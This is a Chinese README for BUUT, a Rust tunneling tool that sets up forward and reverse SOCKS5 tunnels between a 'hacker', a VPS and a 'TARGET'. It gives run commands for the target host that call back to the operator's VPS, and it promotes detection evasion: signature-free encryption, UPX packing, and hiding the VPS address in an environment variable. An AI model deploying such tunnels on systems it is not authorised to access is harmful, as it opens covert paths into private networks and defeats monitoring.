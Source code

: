 # BUUT 

## 介绍 
一款使用rust开发的高性能正反向代理隧道工具，基于yamux多路复用技术。

## 工作原理
```rust
+------+      +-------------+      +-----------+      +-------------+      +----------+      +------+
|hacker| <--> | Socks5 VPS  | <--> |Yamux frame| <--> |Noise stream | <--> |TCP stream| <--> |TARGET|
+------+      +-------------+      +-----------+      +-------------+      +----------+      +------+
```

## 参数介绍 
```rust
    opts.optopt("l", "server_listen",   "", "服务监听地址,默认0.0.0.0:443");
    opts.optopt("s", "remote_addr",     "", "远程地址,默认127.0.0.1:443");
    opts.optopt("p", "proxy_port",      "", "代理端口,默认10086");
    opts.optopt("m", "transport",       "", "协议类型,默认TCP");//|KCP|WS|ICMP|DNS
    opts.optopt("k", "key",             "", "加密密钥");
    opts.optopt("n", "channel",         "", "通道数量,默认1");
    opts.optopt("c", "config",          "", "配置文件路径");
    opts.optopt("",  "sockspass",       "", "代理密码,默认不验证,用户名buut"); 
    opts.optflagopt("F", "forward",     "", "是否正向模式");
    opts.optflagopt("S", "server",      "", "是否服务模式");
```

## 特点：

速度快，使用多路复用技术 将带宽利用到极致。rust开发，速度、稳定性和安全性都有保证。

体积小，编译只有不到几百k, 使用upx后还能更小,相比golang写的程序动辄10多M还是很有优势的。

无特征，程序使用Noise定制加密，可使用动态密钥保证无任何特征。

单文件，客户端和服务端使用同样的单文件、多模式自由组合切换。

多协议，目前release 0.4已支持tcp、kcp、websocket，后续把icmp、dns协议支持加进去。
	


## 使用方法 

### 正向隧道：

```bash
	target执行：./buut -F -l 443 
	vps执行 ：./buut -F -S -s target:443 -p 10086
  	hacker连接socks5  vps:10086 
```

### 反向隧道

```bash
	vps执行：./buut -S -l 443 -p 10086
	target执行：./buut -s vps:443
   	hacker连接socks5  vps:10086 
```

### Tips

1、正向隧道时只能使用单通道的tcp或者websocket协议。

2、设置BUUT变量隐藏vps。 如： 原本的 ./buut -s vps:1234 可改成 export BUUT=vps:1234 && ./buut 

3、使用websocket协议时,连接地址应设为ws://xxx格式 如: ./buut -m ws -s ws://target:8081/service

4、使用kcp协议时,数据不会加密只会压缩。


## 更新 

### 0.4

1、加入websocket, kcp 协议支持。

2、修复client端不会自动重连的bug。

3、优化参数配置。

### 0.3.1 

1、加入windows支持。

2、修改默认参数。

3、优化体积。


## todo

1、增加icmp、dns协议支持  

2、增加自动设置端口复用模式参数

3、加入多级代理支持

4、优化参数体验
	
